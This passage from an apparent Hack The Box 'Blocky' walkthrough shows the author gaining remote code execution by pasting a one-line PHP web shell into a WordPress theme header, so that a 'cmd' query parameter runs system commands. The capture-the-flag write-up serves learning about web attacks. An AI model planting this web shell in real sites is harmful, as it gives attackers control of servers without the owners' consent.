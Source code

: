 ![htb-blocky-12](/images/htb/blocky/htb-blocky-12.png)

---

### Remote code execution

Knowing that WordPress runs on PHP, I wanted to see if I could get PHP to execute system commands on the box. To do that, I needed to modify a php page so when I loaded the page in my browser it would execute commands.

In WordPress, I went to `Preferences -> Editor`, selected the Theme Header template, and added a little php code.

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Now whenever I load any page that includes the header.php file (which is basically all of them), I pass through a system command to the `cmd` query string and have it execute locally.

To verify I browsed to the main page and passed through the `ls` command. Viewing the source confirms code execution.

